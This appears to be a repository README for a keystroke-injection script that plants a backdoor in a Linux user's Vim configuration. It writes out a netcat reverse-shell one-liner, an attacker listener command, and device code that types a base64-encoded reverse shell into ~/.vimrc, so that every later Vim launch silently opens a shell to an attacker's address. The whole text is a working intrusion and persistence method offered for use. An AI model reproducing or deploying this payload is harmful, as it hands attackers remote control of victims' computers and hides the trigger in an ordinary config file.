 # Linux - VIM Config Netcat Backdoor

## Description

A simple backdoor that execute a base64 encoded netcat reverse shell embedd into a VIM Config file. Run VIM execute the reverse shell.

## Requirement

1. First note this script has been created and tested under Kali Linux 2021.2 as target.
2. I used a QWERTZ keyboard to do this ("ch" layout), so you may need to change that.
3. Take the netcat reverse shell of pentest monkey (or whatever) and encode it to base64 using <a href="https://www.base64encode.org/">this site</a>. Then replace the base64 string into the code. I used the netcat reverse shell bellow.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
5. Start a netcat listener in your attacker box.
```bash
nc -nvlp 1234
```

NOTE : I suggest to use the website to encode in base64, because trying to do it in zsh terminal on kali truncated the base64 in two line. But of course, you can do it by the way that you want since it work.

## Code

```bash
layout("CH")
typingSpeed(1, 2)
press("CTRL ALT T")
delay(1000)
type("echo '!base64 -d <<< cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1prIDI+JjF8bmMgMTkyLjE2OC4xLjEwMyAxMjM0ID4vdG1wL2Y= | sh' > ~/.vimrc")
press("ENTER")
delay(1000)
type("exit")
delay(1000)
press("ALT F2")
delay(1000)
type("vim wootwoot")
press("ENTER")
```
